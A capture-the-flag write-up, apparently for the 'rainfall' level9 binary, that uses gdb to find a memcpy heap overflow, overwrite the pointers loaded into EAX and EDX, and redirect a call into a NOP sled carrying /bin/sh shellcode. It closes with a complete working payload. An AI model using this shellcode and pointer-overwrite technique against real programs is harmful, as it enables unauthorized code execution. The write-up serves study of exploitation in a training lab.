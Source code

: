 # Level9

First step - testing the program

	$ ./level9
	$ ./level9 coucou
	$ ./level9 coucou coucou

Nothing

Start in GDB

	(gdb-peda)$ pdisas main
	Dump of assembler code for function main:
	   0x080485f4 <+0>:		push   ebp
	   0x080485f5 <+1>:		mov    ebp,esp
	   0x080485f7 <+3>:		push   ebx
	   0x080485f8 <+4>:		and    esp,0xfffffff0
	   0x080485fb <+7>:		sub    esp,0x20
	   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
	   0x08048602 <+14>:	jg     0x8048610 <main+28>
	   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
	   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
	   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
	   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
	   0x0804861c <+40>:	mov    ebx,eax
	   0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5
	   0x08048626 <+50>:	mov    DWORD PTR [esp],ebx
	   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
	   0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx
	   0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c
	   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
	   0x0804863e <+74>:	mov    ebx,eax
	   0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6
	   0x08048648 <+84>:	mov    DWORD PTR [esp],ebx
	   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
	   0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx
	   0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax
	   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]
	   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax
	   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x08048667 <+115>:	add    eax,0x4
	   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]
	   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax
	   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
	   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
	   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
	   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
	   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
	   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
	   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]
	   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax
	   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]
	   0x08048690 <+156>:	mov    DWORD PTR [esp],eax
	   0x08048693 <+159>:	call   edx
	   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
	   0x08048698 <+164>:	leave
	   0x08048699 <+165>:	ret
	End of assembler dump.

In first, there is a check for 1 argument

The program dereference EAX 2 times at main+140 and there is a call on EDX at main+159

Get all the functions

	(gdb) info function
	All defined functions:

	Non-debugging symbols:
	...
	0x08048510  memcpy
	0x08048510  memcpy@plt
	...

There is a memcpy call, we can overflow

Search the offset of the overflow with the pattern tool

	(gdb-peda)$ pattern create 200 file
	Writing pattern of 200 chars to filename "file"

	(gdb-peda)$ r $(cat file)
	Starting program: /home/nico/42/rainfall/level9/Ressources/level9 $(cat file)

	Program received signal SIGSEGV, Segmentation fault.
	....

	(gdb-peda)$ pattern search
	Registers contain pattern buffer:
	EAX+0 found at offset: 108
	...
	Registers point to pattern buffer:
	[EDX] --> offset 0 - size ~200
	...

Ok we have the offset. We can write in some registers

The offset of EAX is 108 (112 for overwrite it)

The offset of EDX is 0, first position

Try something with (4 bytes EDX) + (104 nop) + (4 bytes EAX)

	(gdb-peda)$ r $(python -c 'print "AAAA"+"\x90"*108+"BBBB"')
	Starting program: /home/nico/42/rainfall/level9/Ressources/level9 $(python -c 'print "AAAA"+"\x90"*108+"BBBB"')

	Program received signal SIGSEGV, Segmentation fault.
	[----------------------------------registers-----------------------------------]
	EAX: 0x42424242 ('BBBB')
	EBX: 0x804ec20 ("BBBB")
	....
	EDX: 0x804ebb4 ("AAAA", '\220' <repeats 104 times>, "BBBB")
	....
	Legend: code, data, rodata, value
	Stopped reason: SIGSEGV
	0x08048682 in main ()

The overwrite of EAX and EDX works. Let's do it with a shellcode

	(gdb-peda)$ r $(python -c 'print "AAAA"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"BBBB"')

Get the address of the nopsled

	gdb-peda$ x/100xh $esp+600
	0xffffd4e8:	0xd51b	0xffff	0x001a	0x0000	0x0000	0x0000	0x001f	0x0000
	0xffffd4f8:	0xdfc8	0xffff	0x000f	0x0000	0xd52b	0xffff	0x0000	0x0000
	0xffffd508:	0x0000	0x0000	0x0000	0x0000	0x0000	0x0000	0x0000	0x0000
	0xffffd518:	0x0000	0xf100	0x031c	0x492d	0xee36	0x7d6c	0x5b7b	0x510e
	0xffffd528:	0x1433	0x691b	0x3836	0x0036	0x0000	0x0000	0x0000	0x0000
	0xffffd538:	0x682f	0x6d6f	0x2f65	0x696e	0x6f63	0x342f	0x2f32	0x6172
	0xffffd548:	0x6e69	0x6166	0x6c6c	0x6c2f	0x7665	0x6c65	0x2f39	0x6552
	0xffffd558:	0x7373	0x756f	0x6372	0x7365	0x6c2f	0x7665	0x6c65	0x0039
	0xffffd568:	0x4141	0x4141	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090
	0xffffd578:	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090 <------ HERE
	0xffffd588:	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090
	0xffffd598:	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090	0x9090	0xeb90
	0xffffd5a8:	0x5e1f	0x7689	0x3108	0x88c0

Put this address (0xffffd578) on EDX, not on EAX. Because EAX can't execute this address 0xffff..

	(gdb-peda)$ r $(python -c 'print "\x78\xd5\xff\xff"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"BBBB"')
	Starting program: /home/nico/42/rainfall/level9/Ressources/level9 $(python -c 'print "\x78\xd5\xff\xff"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"BBBB"')

	Program received signal SIGSEGV, Segmentation fault.
	[----------------------------------registers-----------------------------------]
	EAX: 0x42424242 ('BBBB')
	EBX: 0x804ec20 ("BBBB")
	....
	EDX: 0x804ebb4 --> 0xffffd578 --> 0x90909090
	....
	Legend: code, data, rodata, value
	Stopped reason: SIGSEGV
	0x08048682 in main ()

Now, EDX point on the nopsled, we can put the address of EDX (0x804ebb4) on EAX, for jump in the nopesled

	gdb-peda$ r $(python -c 'print "\x78\xd5\xff\xff"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\xb4\xeb\x04\x08"')
	Starting program: /home/nico/42/rainfall/level9/Ressources/level9 $(python -c 'print "\x78\xd5\xff\xff"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\xb4\xeb\x04\x08"')
	process 16210 is executing new program: /usr/bin/dash
	$

We have the shell, but now we need to exploit on the vm, without gdb-peda for help to find EDX address

The segfault is at main+142, we put a breakpoint and inject our previous payload with AAAA on the first address position and BBBB at the second

	(gdb) b *main+142
	Breakpoint 1 at 0x8048682

	(gdb) r $(python -c 'print "AAAA"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"BBBB"')
	Starting program: /home/user/level9/level9 $(python -c 'print "AAAA"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"BBBB"')

	Breakpoint 1, 0x08048682 in main ()

We are just before the segfault, get the address of where is stored AAAA

	(gdb) x $esp
	0xbffff5b0:	0x0804a008
	(gdb) x/20xw 0x0804a008
	0x804a008:	0x08048848	0x41414141	0x90909090	0x90909090
	0x804a018:	0x90909090	0x90909090	0x90909090	0x90909090
	0x804a028:	0x90909090	0x90909090	0x90909090	0x90909090
	0x804a038:	0x90909090	0x90909090	0x90909090	0x90909090
	0x804a048:	0xeb909090	0x76895e1f	0x88c03108	0x46890746

The address is ESP+4 = 0x0804a008 + 4 = 0x0804a00c

We will put it instead of BBBB

Now, get the address of he nopsled, 0x804a028 for example

The final payload is (0x0804a028) + (nopsled) + (shellcode) + (0x0804a00c)

	$(python -c 'print "\x28\xa0\x04\x08"+"\x90"*59+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x0c\xa0\x04\x08"')
